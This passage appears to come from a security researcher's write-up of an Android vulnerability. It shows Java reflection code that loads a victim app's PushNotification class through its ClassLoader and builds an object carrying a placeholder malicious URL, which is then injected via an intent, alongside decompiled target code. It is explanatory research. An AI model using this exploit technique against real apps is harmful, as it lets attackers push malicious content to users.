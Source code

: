 In the above code, the `getNotification()` method checks the action of the intent and attempts to retrieve the `PushNotification` object from the intent's extras:

- **Line:** `return (PushNotification) (extras != null ? extras.get(EXTRA_NOTIFICATION) : null);`
  
This line casts the `Parcelable` object retrieved from the extras into a `PushNotification`. This is where the challenge arises: the target app expects the `PushNotification` object to be of its own class, so sending a regular `Parcelable` or serializable data from a malicious app will fail.

The solution to this problem was to dynamically load the victim app's `PushNotification` class using a `ClassLoader`. This allowed me to create an object that the victim app would accept as valid.

Here’s how I achieved that using reflection:

```java
// Load the target app's class dynamically
ClassLoader targetClassLoader = getForeignClassLoader("com.victim.app");
Class<?> pushNotificationClass = targetClassLoader.loadClass("com.victim.app.managers.notifications.PushNotification");

// Get the Builder class from PushNotification
Class<?> builderClass = pushNotificationClass.getDeclaredClasses()[0];

// Create an instance of the Builder using reflection
Constructor<?> builderConstructor = builderClass.getConstructor();
Object builderInstance = builderConstructor.newInstance();

// Use reflection to call the builder methods and build the PushNotification object
Method idMethod = builderClass.getDeclaredMethod("id", String.class);
idMethod.invoke(builderInstance, "123");

Method urlMethod = builderClass.getDeclaredMethod("richUrl", String.class);
urlMethod.invoke(builderInstance, MY_MALICIOUS_URL);

// Call the build method to create the PushNotification object
Method buildMethod = builderClass.getDeclaredMethod("build");
Object pushNotification = buildMethod.invoke(builderInstance);
```

This is the original code from decompilation of the target app `PushNotification` Class

```java
public final class PushNotification implements Serializable {

...SNIP... 

    public PushNotification(String str, String str2, String str3, String str4, String str5, String str6, String str7, DefaultConstructorMarker defaultConstructorMarker) {
        this.f6923a = str;
        this.b = str2;
        this.c = str3;
        this.d = str4;
        this.e = str5;
        this.f = str6;
        this.g = str7;
    }


    public final boolean isRichNotification() {
        String str = this.e;
        return !(str == null || StringsKt__StringsJVMKt.isBlank(str));
    }


    public static final /* data */ class Builder {

        ...SNIP...
```